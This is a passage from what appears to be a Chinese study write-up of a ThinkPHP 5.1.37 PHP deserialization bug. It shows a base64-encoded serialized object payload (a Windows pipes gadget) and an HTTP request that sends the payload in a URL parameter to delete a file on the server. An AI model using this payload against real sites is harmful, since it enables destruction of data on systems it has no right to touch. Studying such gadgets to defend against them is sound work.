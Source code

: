 <img src=".\图片\Snipaste_2023-05-24_15-09-38.png" alt="Snipaste_2023-05-24_15-09-38" style="zoom:80%;" />

得到 payload ：

```
TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtzOjQ4OiJDOlxwaHBzdHVkeV9wcm9cV1dXXHRoaW5rcGhwX3Y1LjEuMzdcemYxeW9sby50eHQiO319
```

## 文件删除

```http
http://www.thinkphp5.com/public/index.php?id=TzoyNzoidGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzIjoxOntzOjM0OiIAdGhpbmtccHJvY2Vzc1xwaXBlc1xXaW5kb3dzAGZpbGVzIjthOjE6e2k6MDtzOjQ4OiJDOlxwaHBzdHVkeV9wcm9cV1dXXHRoaW5rcGhwX3Y1LjEuMzdcemYxeW9sby50eHQiO319
```

<img src=".\图片\Snipaste_2023-05-24_15-12-22.png" alt="Snipaste_2023-05-24_15-12-22" style="zoom:80%;" />

触发即删除

## Debug调试

执行到这里时文件便被删除了

<img src=".\图片\Snipaste_2023-05-24_15-45-43.png" alt="Snipaste_2023-05-24_15-45-43" style="zoom:80%;" />